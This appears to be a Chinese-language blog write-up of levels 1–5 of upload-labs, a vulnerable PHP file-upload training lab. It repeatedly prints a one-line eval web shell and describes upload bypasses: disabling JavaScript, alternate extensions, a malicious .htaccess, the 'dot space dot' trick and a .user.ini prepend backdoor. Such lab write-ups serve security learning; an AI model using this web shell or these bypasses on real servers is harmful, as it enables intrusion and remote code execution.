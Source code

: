 ```yaml
---
layout: post
title:  upload-labs(pass1-5)
date: 2021-06-27 17:13 +0900
category: upload-file
---
```

<!-- TOC -->

- [0x0 pass-01](#0x0-pass-01)
- [0x1 pass-02](#0x1-pass-02)
- [0x2 pass-03](#0x2-pass-03)
- [0x3 pass-04](#0x3-pass-04)
- [0x4 pass-05](#0x4-pass-05)
  - [0x4.1 第一种思路：点、空格、点](#0x41-第一种思路点空格点)
  - [0x4.2 第二种思路：.user.ini文件](#0x42-第二种思路userini文件)

<!-- /TOC -->

## 0x0 pass-01
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
![](/images/20210627-1.png)
`关闭js进行上传`  
![](/images/20210627-2.png)
`getshell`  
![](/images/20210627-3.png)

## 0x1 pass-02
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`修改文件类型为shell.php.jpg`  
![](/images/20210627-4.png)
`getshell`
![](/images/20210627-5.png)

## 0x2 pass-03
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`修改文件类型为shell.php5`  
`需要服务器允许上传并且可以解析 .php5 .php3 .phtml等文件`  
![](/images/20210627-6.png)
`getshell`
![](/images/20210627-7.png)

## 0x3 pass-04
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house"?>
```
`phpstudy需要设置允许上传.htaccess文件`  
```php
<FilesMatch "shell_04.jpg">  
		SetHandler application/x-httpd-php
</FilesMatch>
#让服务器以php的方式解析，shell_04.jpg
```
![](/images/20210627-8.png)
`getshell`
![](/images/20210627-9.png)

## 0x4 pass-05

### 0x4.1 第一种思路：点、空格、点
```php
#shell
<?php @eval($_REQUEST['pass']);
    echo "i am a house";
    phpinfo();?>
```
```c
使用burpsuite改包上传shell_05.php
shell_05.php. .
点 空格 点
```
![](/images/20210627-10.png)
![](/images/20210627-11.png)
`getshll`  
![](/images/20210627-12.png)
![](/images/20210627-13.png)

### 0x4.2 第二种思路：.user.ini文件

[具体可以参考]([/images/20210627-13.png](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html))
```C
思路：.user.ini会让当前目录下的每个.php文件都执行一次.user.ini中指定的文件
设置.user.ini文件的内容为：auto_prepend_file=01.gif
然后再执行相同路径文件夹下的.php文件
执行图片马
```